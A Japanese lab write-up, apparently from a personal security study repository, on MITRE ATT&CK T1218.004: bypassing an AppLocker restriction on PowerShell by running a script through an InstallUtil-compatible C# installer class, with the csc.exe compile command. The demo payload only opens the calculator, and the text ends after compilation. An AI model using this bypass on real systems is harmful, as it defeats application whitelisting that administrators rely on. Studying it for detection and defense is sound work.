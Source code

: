 # T1218.004 - InstallUtil


InstallUtil を用いた AppLocker のバイパスについて記載します。

検証の前提として、[AppLocker GPO to Powershell.exe](https://github.com/nishikawaakira/yeabook/blob/main/attack/lab/AppLocker_GPO_for_PS.md) が適用されている環境を用意します。

|  Type  | Description   |
---|---
|  ID  |  T1218.004  |
|  Tactic  |  Defense Evasion |
|  Techniques  |  Signed Binary Proxy Execution  |
|  Sub-techniques  |  InstallUtil |

AppLocker GPO to Powershell.exe
-------------

AppLocker をバイパスして実行させる ps1 形式の Powershell スクリプトを準備します。
ここでは簡単のために、start-process で電卓を起動させるスクリプトを用意します。

本スクリプトは、AppLocker による Powershell.exe の制限環境では実行することはできません。

![T1218.004-1](images/T1218.004/1.png)


C# code for calling Powershell script
-------------

Powershell と同様に .NET のフロントエンドである Ｃ# プログラムを利用して目的の Powershell スクリプトを実行します。



```
using System;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
public class Program
{
    public static void Main()
    {
    }
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
    Mycode.Exec();
    }
}
public class Mycode
{
    public static void Exec()
    {
    string desktop = System.Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory) + "\\app_bypass.ps1";
    string command = System.IO.File.ReadAllText(desktop);
    RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
    Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
    rspace.Open();
    Pipeline pipeline = rspace.CreatePipeline();
    pipeline.Commands.AddScript(command);
    pipeline.Invoke();
    }
}
```

```
cmd /c C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:%USERPROFILE%\Desktop\Program.exe %USERPROFILE%\Desktop\Program.cs

```